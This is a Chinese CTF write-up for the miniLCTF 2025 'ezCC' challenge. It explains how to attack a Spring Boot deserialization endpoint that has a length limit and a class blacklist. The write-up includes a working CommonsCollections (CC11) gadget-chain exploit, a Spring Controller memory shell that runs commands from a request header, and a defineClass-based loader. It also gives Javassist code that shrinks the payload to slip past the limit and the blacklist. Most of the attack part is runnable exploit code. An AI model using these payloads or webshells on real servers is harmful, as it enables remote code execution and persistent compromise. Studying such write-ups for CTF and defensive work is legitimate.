





# 从MINILCTF ezCC 学习Springboot内存马缩短方式-先知社区

> **来源**: https://xz.aliyun.com/news/17981  
> **文章ID**: 17981

---

### 题目分析:

题目环境为JDK8。

首先分析题目依赖：

```
├── commons-collections-3.2.1.jar
├── jackson-annotations-2.13.4.jar
├── jackson-core-2.13.4.jar
├── jackson-databind-2.13.4.jar
├── jackson-datatype-jdk8-2.13.4.jar
├── jackson-datatype-jsr310-2.13.4.jar
├── jackson-module-parameter-names-2.13.4.jar
├── jakarta.annotation-api-1.3.5.jar
├── jul-to-slf4j-1.7.36.jar
├── log4j-api-2.17.2.jar
├── log4j-to-slf4j-2.17.2.jar
├── logback-classic-1.2.11.jar
├── logback-core-1.2.11.jar
├── slf4j-api-1.7.36.jar
├── snakeyaml-1.30.jar
├── spring-aop-5.3.23.jar
├── spring-beans-5.3.23.jar
├── spring-boot-2.7.4.jar
├── spring-boot-autoconfigure-2.7.4.jar
├── spring-boot-jarmode-layertools-2.7.4.jar
├── spring-context-5.3.23.jar
├── spring-core-5.3.23.jar
├── spring-expression-5.3.23.jar
├── spring-jcl-5.3.23.jar
├── spring-web-5.3.23.jar
├── spring-webmvc-5.3.23.jar
├── tomcat-embed-core-9.0.65.jar
├── tomcat-embed-el-9.0.65.jar
└── tomcat-embed-websocket-9.0.65.jar
```

直接看到了存在漏洞的cc版本。

审计一下代码：

```
import com.example.Components.Comment;
import com.example.tools.BlackList;
import com.example.tools.ByteArrayToStringExtractor;
import com.example.tools.Tools;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;
import java.util.Set;
import javax.servlet.http.HttpServletRequest;
import org.springframework.core.io.FileSystemResource;
import org.springframework.core.io.Resource;
import org.springframework.http.HttpHeaders;
import org.springframework.http.MediaType;
import org.springframework.http.ResponseEntity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class IndexController {
    public ArrayList<Comment> comments = new ArrayList<>();

    public BlackList bl = new BlackList();

    Set<String> blacklist = this.bl.blacklist;

    @RequestMapping({"/"})
    @ResponseBody
    public String index(HttpServletRequest request) {
        return "<html><head><style>body { font-family: Arial, sans-serif; background-color: #f0f0f0; padding: 20px; }.container { max-width: 600px; margin: 0 auto; background: white; padding: 20px; border-radius: 8px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }h1 { color: #333; }form { margin-top: 20px; }label { display: block; margin-bottom: 8px; }input[type='text'] { width: 100%; padding: 8px; margin-bottom: 10px; border: 1px solid #ccc; border-radius: 4px; }input[type='submit'] { background-color: #4CAF50; color: white; padding: 10px 20px; border: none; border-radius: 4px; cursor: pointer; }input[type='submit']:hover { background-color: #45a049; }</style></head><body><div class='container'><h1>Welcome to miniLCTF 2025~</h1><p>Do you really know the CC?</p><form action='/handle' method='post'>  <label for='data'>Enter data:</label>  <input type='text' id='data' name='data'>  <input type='submit' value='Submit'></form></div></body></html>";
    }

    @PostMapping({"/handle"})
    public String ser(String data) throws Exception {
        Comment new_comment = new Comment(data);
        byte[] comments_code = Tools.serialize(new_comment);
        String comments_str = Tools.base64Encode(comments_code);
        deser(comments_str);
        return "redirect:/show";
    }

    @RequestMapping({"/deserialize"})
    @ResponseBody
    public void deser(String data) throws Exception {
        if (data.length() > 6000)
            throw new Exception("Payload too long"); 
        byte[] comments_code = Tools.base64Decode(data);
        List<String> result = ByteArrayToStringExtractor.extractVisibleStrings(comments_code);
        for (String i : this.blacklist) {
            for (String s : result) {
                if (s.contains(i))
                    throw new Exception("Forbidden blacklist"); 
            } 
        } 
        try {
            Comment trans_comment = (Comment)Tools.deserialize(comments_code);
            this.comments.add(trans_comment);
        } catch (Exception e) {
            e.printStackTrace();
        } 
  }
  
  @RequestMapping({"/show"})
  @ResponseBody
  public String show(HttpServletRequest request) throws Exception {
    StringBuilder htmlBuilder = new StringBuilder();
    htmlBuilder.append("<html><head><style>")
      .append("body { font-family: Arial, sans-serif; background-color: #f0f0f0; padding: 20px; }")
      .append(".container { max-width: 800px; margin: 0 auto; background: white; padding: 20px; border-radius: 8px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }")
      .append("h1 { color: #333; }")
      .append("ul { list-style-type: none; padding: 0; }")
      .append("li { margin-bottom: 10px; padding: 10px; background-color: #f9f9f9; border-radius: 4px; }")
      .append(".comment-text { font-weight: bold; }")
      .append(".comment-time { color: #666; font-size: 0.9em; }")
      .append("</style></head><body>")
      .append("<div class='container'>")
      .append("<h1>Comments</h1>");
    if (this.comments.isEmpty()) {
      htmlBuilder.append("<p>No comments yet.</p>");
    } else {
      htmlBuilder.append("<ul>");
      for (Comment comment : this.comments)
        htmlBuilder.append("<li>")
          .append("<span class='comment-text'>").append(comment.getText()).append("</span>")
          .append("<br>")
          .append("<span class='comment-time'>From: ").append(comment.getFormattedTimestamp()).append("</span>")
          .append("</li>"); 
      htmlBuilder.append("</ul>");
    } 
    htmlBuilder.append("</div></body></html>");
    return htmlBuilder.toString();
  }
  
  @RequestMapping({"/secret"})
  @ResponseBody
  public ResponseEntity<Resource> secret(HttpServletRequest request) throws IOException {
    String path = "/app/final.jar";
    FileSystemResource fileSystemResource = new FileSystemResource(path);
    if (!fileSystemResource.exists() || !fileSystemResource.isReadable())
      return ResponseEntity.notFound().build(); 
    HttpHeaders headers = new HttpHeaders();
    headers.add("Content-Disposition", "attachment; filename="" + fileSystemResource.getFilename() + """);
    return ((ResponseEntity.BodyBuilder)ResponseEntity.ok().headers(headers)).contentLength(fileSystemResource.contentLength()).contentType(MediaType.APPLICATION_OCTET_STREAM).body(fileSystemResource);
  }
}
```

直接看到了反序列化路由。先知参数长度不超过6000，同时直接进行了一次黑明单过滤。

```
import com.example.tools.ClassResolvingObjectInputStream;
import java.io.BufferedInputStream;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class Tools {
  public static byte[] base64Decode(String base64) {
    Base64.Decoder decoder = Base64.getDecoder();
    return decoder.decode(base64);
  }
  
  public static String base64Encode(byte[] bytes) {
    Base64.Encoder encoder = Base64.getEncoder();
    return encoder.encodeToString(bytes);
  }
  
  public static byte[] serialize(Object obj) throws Exception {
    ByteArrayOutputStream btout = new ByteArrayOutputStream();
    ObjectOutputStream objOut = new ObjectOutputStream(btout);
    objOut.writeObject(obj);
    return btout.toByteArray();
  }
  
  public static Object deserialize(byte[] serialized) throws Exception {
    if (serialized == null) {
      String msg = "argument cannot be null.";
      throw new IllegalArgumentException(msg);
    } 
    ByteArrayInputStream bais = new ByteArrayInputStream(serialized);
    BufferedInputStream bis = new BufferedInputStream(bais);
    try {
      ClassResolvingObjectInputStream classResolvingObjectInputStream = new ClassResolvingObjectInputStream(bis);
      Object deserialized = classResolvingObjectInputStream.readObject();
      classResolvingObjectInputStream.close();
      return deserialized;
    } catch (Exception e) {
      String msg = "Unable to deserialze argument byte array.";
      throw new Exception(msg, e);
    } 
  }
}
```

进行了三次限制：使用的自己定义的ClassResolvingObjectInputStream来进行读取。

```
import com.example.tools.BlackList;
import com.example.tools.ClassUtils;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.Set;

public class ClassResolvingObjectInputStream extends ObjectInputStream {
  public ClassResolvingObjectInputStream(InputStream inputStream) throws IOException {
    super(inputStream);
  }
  
  protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
    BlackList bl2 = new BlackList(2);
    Set<String> blacklist2 = bl2.blacklist;
    System.out.println(osc.getName());
    for (String blacklisted : blacklist2) {
      if (osc.getName().contains(blacklisted))
        throw new IOException("Forbidden blacklist 2"); 
    } 
    try {
      return ClassUtils.forName(osc.getName());
    } catch (Exception e) {
      throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", e);
    } 
  }
}
```

```
import java.util.Arrays;
import java.util.HashSet;
import java.util.Set;

public class BlackList {
  public final Set<String> blacklist;
  
  public BlackList() {
    this.blacklist = new HashSet<>();
    this.blacklist.addAll(Arrays.asList(new String[] { "Runtime", "ScriptEngine", "SpelExpressionParser", "ProcessImpl", "UNIXProcess", "forkAndExec", "ProcessBuilder", "UnixPrint" }));
  }
  
  public BlackList(int sign) {
    this.blacklist = (new com.example.tools.BlackList()).blacklist;
    this.blacklist.addAll(Arrays.asList(new String[] { "jackson", "ChainedTransformer" }));
  }
}
```

黑名单比较的简单，在反序列化的时候禁用了jackson和ChainedTransformer。

### 利用链挖掘：

禁用了ChainedTransformer，让我们联想到了再打cb链，以及cc11链的时候，需要绕过ChainedTransformer。我们来看一下cc11的poc：

```
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Field;

import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesimpl = TemplatesImplUtil.getTemplatesImpl();
        InvokerTransformer it = new InvokerTransformer("getOutputProperties", null, null);

        Map lazymap = LazyMap.decorate(new HashMap(), it);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(LazyMap.decorate(new HashMap(), new ConstantTransformer(null)), templatesimpl);//此处进行修改

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, null);

        Class clazz1 = TiedMapEntry.class;
        Field field1 = clazz1.getDeclaredField("map");
        field1.setAccessible(true);
        field1.set(tiedMapEntry, lazymap);

        byte[] bytes = SerializeUtil.serialize(hashMap);
//        SerializeUtil.deserialize(bytes);
    }
}
```

显然是可以直接用的，本地也能够成功打通。然而当尝试利用的时候，发现题目环境不出网；而直接去用JavaChains上的base64去打的时候，又发现长度超出了6000的限制，而且超出的非常的多。接下来就是尝试自己构造内存马。

有关内存马的原理，这里就不多去介绍了，在xz上有很多好的文章解释的很清楚。

在网上找了一个Controller型的内存马，然后修改内容使其缩短。其中执行命令的路由代码如下：

```
@RequestMapping("/e")
    public void t() throws Exception {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        if (request.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\A");
            String output = s.hasNext() ? s.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
            response.getWriter().close();
        }
    }
```

​

针对不同的平台和编码方式进行了适配。如果希望内存马比较短的话，这种方式肯定是不行的，得到修改的代码如下：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import java.io.IOException;
import java.lang.reflect.Method;

@RestController
public class E extends AbstractTranslet {
    public E() throws Exception {
            WebApplicationContext c = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping m = c.getBean(RequestMappingHandlerMapping.class);
            Method M = E.class.getMethod("t");
            Method g = m.getClass().getDeclaredMethod("getMappingForMethod", Method.class, Class.class);
            g.setAccessible(true);
            RequestMappingInfo i = (RequestMappingInfo) g.invoke(m, M, E.class);
            E s = new E("a");
            m.registerMapping(i, s, M);
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
    public E(String a) {
    }
    @RequestMapping("/e")
    public void t() throws IOException {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest q = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse p = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
        String r = new java.util.Scanner(Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",q.getHeader("c")}).getInputStream()).useDelimiter("\A").next();
        p.getWriter().println(r);
    }
}
```

然后就是老生常谈的用Javassist去除两个transform函数来减少字节码。

```
import javassist.*;

public class RemoveTransformMethods {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass(new java.io.FileInputStream("E.class"));
        for (CtMethod method : ctClass.getDeclaredMethods()) {
            if (method.getName().equals("transform")) {
                ctClass.removeMethod(method);
            }
        }
        ctClass.writeFile("./modified");
    }
}
```

4916个字节，显然是不行的，加上cc11的内容一定是会超过6000。

既然我们可以通过TemplatesImpl加载字节码打内存马，那么为什么不能在TemplatesImpl中再嵌套一层加载，然后将要加载的字节码在http中传过去呢？

构造出ClassLoader工具类如下：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import java.lang.reflect.*;
import java.util.Base64;

public class L extends AbstractTranslet {
    static {
        try {
            HttpServletRequest r = ((ServletRequestAttributes) RequestContextHolder.getRequestAttributes()).getRequest();
            Field f1 = r.getClass().getDeclaredField("request");
            f1.setAccessible(true);
            Object i = f1.get(r);
            Field f2 = i.getClass().getDeclaredField("response");
            f2.setAccessible(true);
            HttpServletResponse s = (HttpServletResponse) f2.get(i);
            byte[] b = Base64.getDecoder().decode(r.getParameter("c"));
            Method m = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            m.setAccessible(true);
            Class<?> c = (Class<?>) m.invoke(L.class.getClassLoader(), b, 0, b.length);
            c.newInstance().equals(new Object[]{r, s});
        } catch (Exception e) {
        }
    }
    public void transform(DOM a, SerializationHandler[] b) {}
    public void transform(DOM a, DTMAxisIterator b, SerializationHandler c) {}
}
```

不要忘了移除transform

此时的字节数仅为3260，足够构造了（甚至再套一个RMIConnector）都够用。

最后也是成功的执行了命令。

# 总结与分析：

实际上，这种通过defineClass来打二次类加载的方式有多点好处：

* 绕过长度限制。
* 绕过Runtime，ProcessBuilder等执行命令函数限制。
* 可以通用的加载各种类型的内存马，有利于反序列化链的节点化。

其中的绕过长度限制不仅指这道题中的限制，也包括Tomcat Embed中对于header 8k，body 2M的限制（很多题中会遇到）。
